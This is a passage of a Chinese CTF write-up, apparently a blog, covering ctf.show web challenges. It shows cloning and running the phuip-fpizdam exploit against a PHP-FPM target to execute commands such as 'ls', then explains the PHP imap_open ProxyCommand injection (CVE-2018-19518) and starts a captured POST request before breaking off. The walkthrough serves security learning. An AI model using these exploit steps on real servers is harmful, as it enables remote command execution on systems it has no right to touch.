 查看go环境信息

![](https://img-blog.csdnimg.cn/2021041523194060.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
获取 $GOPATH

```
$GOPATH是go安装的目录，记得改成自己的

mkdir -p $GOPATH/src/golang.org/x/

cd $GOPATH/src/golang.org/x/

git clone https://github.com/neex/phuip-fpizdam.git phuip-fpizdam

go install phuip-fpizdam
```

![](https://img-blog.csdnimg.cn/20210415232009545.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
缺啥下载啥

完成后 `bin目录`下生成可执行

![](https://img-blog.csdnimg.cn/20210415232021937.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
执行payload：

```
./phuip-fpizdam url/index.php
```

![](https://img-blog.csdnimg.cn/20210415232123919.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
`index.php?a=ls` 执行系统命令


---
# 312(CVE-2018-19518)-PHP-IMAP
[PHP imap 远程命令执行漏洞](https://blog.csdn.net/lhh134/article/details/88542587)

>php imap扩展用于在PHP中执行邮件收发操作。其imap_open函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。
因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。


影响：
- PHP：5.6.38
系统：Debian/ubuntu
条件较高


抓包大概长这样：

![](https://img-blog.csdnimg.cn/20210415232336823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

修改命令发包：

```html
POST / HTTP/1.1
Host: c5b5673c-8fb8-41dd-be39-b18fb4ab90b1.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://c5b5673c-8fb8-41dd-be39-b18fb4ab90b1.challenge.ctf.show:8080
Connection: close
Referer: http://c5b5673c-8fb8-41dd-be39-b18fb4ab90b1.challenge.ctf.show:8080/
Upgrade-Insecure-Requests: 1

```